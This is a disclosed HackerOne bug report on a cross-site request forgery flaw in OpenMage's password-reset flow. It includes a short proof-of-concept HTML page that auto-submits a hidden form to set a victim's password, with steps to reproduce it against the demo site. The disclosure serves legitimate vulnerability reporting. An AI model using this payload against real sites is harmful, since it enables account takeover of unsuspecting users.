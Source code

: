 # CSRF in changing password after using reset password link

## Report Details
- **Report ID**: 1086752
- **URL**: https://hackerone.com/reports/1086752
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-25T14:47:04.896Z
- **Disclosed**: 2021-05-27T08:55:08.327Z

## Reporter
- **Username**: xenx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: openmage

## Vulnerability Information
## Summary:
Hey OpenMage, the forgot password page is not protected against CSRF attack which can lead to changing password. Use the below form  to test
```html
<html> 
  <body>
    <form  action="https://demo.openmage.org/customer/account/resetpasswordpost/" method="POST">
      <input type="hidden" name="password" value="password123" />
      <input type="hidden" name="confirmation" value="password123" />
    </form>
   <script>document.forms[0].submit()</script>
  </body>
</html>
```
## Steps To Reproduce:

  1. Go to  ```https://demo.openmage.org/customer/account/forgotpassword/```
  2. Enter your email  and ask for password reset link
  3. Load the password reset link and after loading it close it
  4. Now load the above form and boom, password will be changed.

## Impact

Password reset via CSRF

## Attachments
No attachments

